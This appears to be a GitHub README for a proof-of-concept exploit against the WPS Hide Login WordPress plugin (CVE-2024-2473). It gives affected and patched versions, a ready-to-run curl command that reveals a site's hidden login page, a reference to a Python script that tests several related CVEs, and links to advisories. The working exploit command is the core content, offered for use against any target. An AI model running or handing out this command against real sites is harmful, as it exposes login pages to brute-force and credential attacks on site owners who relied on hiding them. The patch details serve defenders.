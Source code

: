 # WPS Hide Login <= 1.9.15.2 - Login Page disclosure (CVE-2024-2473)

Disclose login page hidden by [WPS-Hide-Login WordPress plugin](https://wordpress.org/plugins/wps-hide-login/).

Affected versions: 1.5.1 to 1.9.15.2

Patched version: 1.9.16

## Exploitation cURL command

```bash
curl -X POST -sk https://$target/wp-admin/?action=postpass -d 'post_password=' | grep -i location | cut -d ' ' -f 2- | cut -d '?' -f 1
```

## Exploitation Python script

This script include tests for other CVEs on [WPS-Hide-Login WordPress plugin](https://wordpress.org/plugins/wps-hide-login/).

```bash
./show-login.py -h
```

## References

- [CVE-2024-2473]()
- [CVE-2021-24917](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-190-hidden-login-page-location-disclosure)
- [CVE-2019-15826](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-actionrp)
- [CVE-2019-15825](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-referer-header)
- [CVE-2019-15824](https://wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-actionconfirmaction)
- [CVE-2019-15823](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wps-hide-login/wps-hide-login-1522-login-page-disclosure-via-adminhash)
